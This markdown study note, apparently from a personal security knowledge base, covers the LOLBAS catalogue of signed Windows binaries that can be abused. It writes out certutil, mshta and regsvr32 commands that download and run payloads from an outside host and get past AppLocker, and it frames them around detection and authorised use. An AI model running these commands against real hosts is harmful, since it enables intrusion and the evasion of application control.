

# LOLBAS

LOLBAS (`lolbas-project.github.io`) — Living Off the Land Binaries And Scripts — is the Windows counterpart to GTFOBins. It catalogs **signed, built-in Microsoft binaries** that can be abused to download files, execute code, bypass application control, or dump credentials. Because these binaries ship with Windows and are trusted/signed, using them helps an attacker blend into normal activity and slip past allow-listing.

> [!warning] Authorized operations only
> These techniques execute code on Windows hosts. Use only in scope, and coordinate expected telemetry with the blue team rather than evading silently.

## Parent Learning Order
GTFOBins -> LOLBAS -> CrackStation -> Aperisolve -> revshells.com

## Abusing the trusted binaries already on the box

Modern defenses block *unknown* executables. So attackers stop bringing their own tools and instead abuse the **trusted ones already on the box** — "living off the land." `certutil` can download a file. `mshta` can run script. `regsvr32` can execute a remote scriptlet. Each is signed by Microsoft, so an allow-list waves it through.



LOLBAS is the "what trusted binary already here can do the thing I need?" lookup.

## Indexed by capability, from download to credential dump

The site indexes each binary by capability — `Download`, `Execute`, `AWL Bypass` (AppLocker/WDAC), `Dump`, `Credentials`. Classic entries:

```console
:: certutil — download (it's a certificate tool, but fetches any URL)
C:\> certutil -urlcache -split -f http://198.51.100.9/a.exe a.exe

:: mshta — execute remote script (HTML Application host)
C:\> mshta http://198.51.100.9/p.hta

:: regsvr32 — AppLocker bypass via remote scriptlet ("Squiblydoo")
C:\> regsvr32 /s /n /u /i:http://198.51.100.9/f.sct scrobj.dll
```

Each LOLBAS entry lists the command, the capability, and the detection notes — so you also learn what defenders will see.

## Signed and expected, which is the whole problem

The power *and* the flaw of LOLBins is that they are **signed and expected**:

```console
:: an attacker's own tool — blocked by application control
C:\> evil.exe
This app has been blocked by your system administrator. (AppLocker)

:: the same download via a trusted built-in — allowed
C:\> certutil -urlcache -split -f http://198.51.100.9/a.exe a.exe
CertUtil: -URLCache command completed successfully.
```

**The deliberate break:** allow-listing stops `evil.exe` but *not* `certutil`, because signature/path-based control trusts the binary, not its behaviour. That is the whole point of living-off-the-land — and also the key to defeating it: since you can't block `certutil`, you must detect the **anomalous behaviour** (why is a certificate utility making an outbound HTTP request and writing an executable?). LOLBAS is therefore a detection-engineering goldmine as much as an offensive one — every entry names the parent-process/command-line pattern a EDR rule should flag. Blocking the binary is usually impossible; catching the misuse is the achievable defense.

## Summary

You should now be able to:

- Explain why attackers abuse built-in Windows binaries instead of uploading their own tools.
- Choose the LOLBin that downloads a payload where `.exe`s are blocked, and give the command.
- Explain why application allow-listing can't stop LOLBins, and what detection approach does.

---
> 🔼 Up: [[Web-Based Tools & References]]
